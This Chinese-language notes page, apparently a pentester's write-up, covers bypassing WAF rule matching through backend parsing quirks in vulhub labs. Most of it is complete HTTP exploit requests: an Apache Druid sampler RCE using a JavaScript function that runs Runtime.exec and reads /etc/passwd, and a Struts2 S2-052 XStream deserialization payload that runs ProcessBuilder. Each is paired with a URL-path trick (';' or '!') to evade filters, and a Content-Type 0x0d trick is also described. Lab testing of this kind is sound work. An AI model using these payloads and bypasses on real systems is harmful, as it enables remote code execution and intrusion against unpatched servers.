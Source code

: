 # 基于后端特性的绕过

由于各类后端对字符的处理存在差异，因此在绕过时可以尝试一下字符的fuzz，本质还是以不影响后端解析的字符串打破规则匹配。

## apache

环境：vulhub/apache-druid

绕过方式：url中支持；而不影响解析

绕过点：

`/druid/indexer;/v1/sampler`

完整报文：

```
POST /druid/indexer;/v1/sampler HTTP/1.1
Host: 192.168.1.231:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 925

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"touch\",\"/tmp/successwa1ex\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```



## strust2

环境：vulhub/strust2-052

绕过方式：url中支持各类标点符号而不影响解析（多的我有点没想到

具体：`!/?;`

绕过点（例）：

`/orders!/3/edit`

完整报文：

```xml
POST /orders!/3/edit HTTP/1.1
Host: 200.1.2.2:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2420

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/successacf</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>

```

有个比较奇怪的地方是xml的标签值和文本内容理论上来说是支持html编码的，但这里的标签值并未支持，只能理解为strust2实现时没有顾及到这一点。



## Content-Type

相较于文档名来说属于是跑题了

绕过方式：Content-Type的值中支持0d

具体：

![image-20230714102918569](./基于后端特性的绕过.assets/image-20230714102918569.png)

绕过点：同上

完整报文：同上一个报文，在上图位置插入0d即可。

题外话：之前在测类似的content-type时有过一个思路

![image-20230714105024015](./基于后端特性的绕过.assets/image-20230714105024015.png)

但在这次的测试中换行会导致payload不可用，猜测有以下两种原因

1：后端因素：之前测试的目的是绕过sql注入测试，其后端为php站点，而这玩意是java。

2：Content-Type：Content-Type默认为www-urlencoded，因此导致在换行后仍然可以解析。


